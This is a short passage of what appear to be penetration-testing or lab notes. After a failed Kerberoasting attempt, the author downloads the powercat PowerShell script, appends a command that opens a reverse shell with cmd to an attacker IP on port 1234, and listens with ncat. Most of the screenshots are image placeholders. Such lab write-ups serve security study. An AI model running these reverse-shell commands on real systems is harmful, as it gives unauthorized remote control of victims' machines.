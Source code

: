 kerboroasting also not successful. 

![image.png](image%2049.png)

Let’s try loading our ip into powercat script to try and get a reverse shell 

listening on our attacking machine using ncat 

need to upload netcat and powercat script to our winrm 

then we can use powercat script to create the reverse shell 

wget [https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1)
echo 'powercat -c 192.168.255.129 -p 1234 -e cmd' >> powercat.ps1

![image.png](image%2050.png)

![image.png](image%2051.png)

![image.png](image%2052.png)
